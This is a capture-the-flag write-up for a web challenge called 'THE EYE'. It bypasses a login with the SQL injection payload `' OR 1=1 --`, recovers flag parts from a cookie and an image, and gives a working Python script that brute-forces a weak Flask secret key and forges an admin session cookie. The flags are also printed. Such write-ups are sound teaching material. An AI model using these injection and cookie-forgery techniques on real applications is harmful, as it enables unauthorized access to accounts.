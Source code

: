 # THE EYE Writeup

## Stage 1

Guess SQL injection.

Yes! Payload is the calssic `' OR 1=1 --`

After logging in and click getflag, base64 decode the cookie and found the second part of flag is `on_is_just_a_lie__*_*}`

Then what's next? Guessing again... Image!

`exiftool`, `binwalk`, `pngcheck` no suspicious things.

Steg? Yes!

Open stegsolve, switch to `Alpha plane 0` and done.

LoTuX{SQL_injection_is_just_a_lie__*_*}

## Stage 2

Guessing again, we found `robots.txt`

```text
User-agent: *
Disallow: /admin       # This is for THE EYE 2
Disallow: /admin-dev   # This is for THE EYE 2
```

In `admin-dev` we have some source code:

```python
from flask import Flask, session, redirect, render_template
import os

DATABASE = 'EYE.db'

app = Flask(__name__)
app.secret_key = os.urandom(3)

@app.route('/admin')
def admin():
    if not 'username' in session:
        return redirect('/')
    if session['username'] != 'admin':
        return redirect('/')
    return render_template('admin.html')
```

We can bruteforce the secret key. The rest is similiar to `Most Cookies` in PicoCTF.

Need some patience while bruteforcing. A few minutes is needed.

```python
def decode_flask_cookie(secret_key, cookie_str):
    import hashlib
    from itsdangerous import URLSafeTimedSerializer
    from flask.sessions import TaggedJSONSerializer

    salt = "cookie-session"
    serializer = TaggedJSONSerializer()
    signer_kwargs = {"key_derivation": "hmac", "digest_method": hashlib.sha1}
    s = URLSafeTimedSerializer(
        secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs
    )
    return s.loads(cookie_str)


wordlist = []

secret_key_haha = b''

for i in range(256**3):
    # Convert the integer to bytes and add leading zeros if necessary
    wordlist.append(i.to_bytes(3, byteorder='big'))
print("wordlist generated successfully")
for word in wordlist:
    print("Trying "+str(word))
    try:
        res = decode_flask_cookie(
            word, "eyJmbGFnIjoiW1RIRSBFWUUgMV0gb25faXNfanVzdF9hX2xpZV9fKl8qfSIsInVzZXJuYW1lIjoiY3VyaW91cyJ9.ZFbIIQ.ncYuh-QhnRLZJy9QfusHjW02zBY" # This is the session cookie grabbed after login with sql injection and click getflag  
        )
        # except BadSignature:
        	# continue
        print(word)
        print(res)
        secret_key_haha = word # In this challenge is b'\x9d\xdd\x82'
        break
    except:
        continue
print("Found secret_key:"+str(word))
WTF = {"flag":"[THE EYE 1] on_is_just_a_lie__*_*}","username":"admin"}


def encode_flask_cookie(secret_key, cookie_str):
    import hashlib
    from itsdangerous import URLSafeTimedSerializer
    from flask.sessions import TaggedJSONSerializer

    salt = "cookie-session"
    serializer = TaggedJSONSerializer()
    signer_kwargs = {"key_derivation": "hmac", "digest_method": hashlib.sha1}
    s = URLSafeTimedSerializer(
        secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs
    )
    return s.dumps(cookie_str)

print(encode_flask_cookie(secret_key_haha,WTF))
```
